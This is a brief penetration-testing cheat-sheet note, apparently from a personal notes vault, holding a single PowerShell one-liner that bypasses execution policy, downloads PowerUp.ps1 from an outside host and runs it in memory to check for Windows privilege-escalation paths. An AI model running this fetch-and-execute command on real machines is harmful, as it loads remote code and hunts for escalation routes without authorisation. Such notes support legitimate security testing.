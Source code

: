 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Powershell

Powerup Download and Invoke All Checks:

~~~PowerShell
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Windows/Powershell/PowerUp.ps1'); Invoke-AllChecks”
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
